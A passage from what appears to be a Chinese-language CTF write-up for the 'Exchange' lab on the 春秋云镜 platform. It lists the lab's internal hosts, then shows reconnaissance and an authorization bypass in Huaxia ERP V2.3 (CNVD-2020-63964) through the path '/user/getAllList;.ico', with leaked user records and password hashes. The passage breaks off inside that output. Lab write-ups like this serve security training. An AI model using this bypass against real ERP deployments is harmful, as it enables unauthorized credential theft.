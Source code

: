```yaml
---
layout: post
title: Exchange - 春秋云镜
category: [春秋云镜]
tags: [active directory pentesting, microsoft exchange server, acl abuse]
---
```


![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/9badaf9ee65668bd.png)

靶标介绍：

Exchange 是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有 4 个 Flag，分布于不同的靶机。

| 内网地址    | Host or FQDN                | 简要描述                             |
| ----------- | --------------------------- | ------------------------------------ |
| 172.22.3.12 | iZ8vbhidac6emrzabcvappZ     | 外网华夏 (Lumia) ERP                 |
| 172.22.3.9  | XIAORANG-EXC01.xiaorang.lab | Microsoft Exchange Server 邮件服务器 |
| 172.22.3.26 | XIAORANG-PC.xiaorang.lab    |                                      |
| 172.22.3.2  | XIAORANG-WIN16.xiaorang.lab | 域控制器                             |

## 外网信息探测

80 端口：
![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/4cb47bdbb8c74b55.png)

8000 端口，发现华夏 ERP V2.3 后台登录界面：
![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/46f28e6c4a67e65b.png)

## 华夏 ERP 账号密码泄露

存在华夏 ERP 账号密码泄露（CNVD-2020-63964），访问未授权接口 `/user/getAllList;.ico` 获取所有用户的凭据：

```json
{
  "code": 200,
  "data": {
    "userList": [
      {
        "id": 63,
        "username": "季圣华",
        "loginName": "jsh",
        "password": "e10adc3949ba59abbe56e057f20f883e",
        "position": "",
        "department": null,
        "email": "",
        "phonenum": "",
        "ismanager": 1,
        "isystem": 1,
        "status": 0,
        "description": "",
        "remark": null,
        "tenantId": 63
      },
      {
        "id": 120,
        "username": "管理员",
        "loginName": "admin",
        "password": "e10adc3949ba59abbe56e057f20f883e",
```